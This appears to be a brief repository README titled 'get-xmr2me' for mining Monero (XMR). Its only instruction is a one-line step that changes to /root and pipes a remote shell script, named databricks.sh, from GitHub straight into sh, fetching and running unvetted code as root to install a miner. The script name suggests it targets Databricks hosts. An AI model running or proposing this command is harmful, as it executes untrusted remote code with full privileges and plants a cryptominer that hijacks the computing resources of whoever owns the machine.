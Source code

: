 # get-xmr2me
order to mining XMR


cd /root
curl https://raw.githubusercontent.com/aabu3572/get-xmr2me/main/databricks.sh | sh

